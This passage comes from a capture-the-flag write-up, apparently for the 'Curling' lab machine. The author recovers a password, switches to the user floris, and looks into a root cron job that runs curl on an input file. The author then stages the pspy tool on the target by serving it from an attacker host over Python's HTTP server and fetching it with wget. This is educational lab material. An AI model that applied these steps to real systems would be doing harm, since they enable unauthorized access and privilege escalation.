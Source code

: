 ```
www-data@curling:/tmp$ mv test test.tar
www-data@curling:/tmp$ tar xvf test.tar 
password.txt
www-data@curling:/tmp$ cat password.txt 
5d<wdCbdZu)|hChXll
```

Finally, I have the password ! Now I tried to use it to connect as floris :

```
www-data@curling:/home$ su floris         
Password: 
floris@curling:/home$ whoami
floris
```

I'm now the user floris ! Let's go to root now ! Searching for privilege escalation I found a directory created by root, which I can modify the content :

```
floris@curling:~/admin-area$ ls -l
total 20
-rw-rw---- 1 root floris    25 Aug  3 16:26 input
-rw-rw---- 1 root floris 14242 Aug  3 16:26 report
```

```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

Report is the html return from the url contain in the input file. This looks like the output of curl ! There is a script running every minute who modify the report file. There must be a cronjob !

```
floris@curling:~/admin-area$ crontab -u root -l
must be privileged to use -u
```

I don't have enought rights to see it ! So I used an awesome script called [pspy](https://github.com/DominicBreuker/pspy).

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

Start python server for file transfert :

```
python -m SimpleHTTPServer
```

Fetch it on the machine :

```
wget http://10.10.14.4:8000/pspy64
```

Then run it :
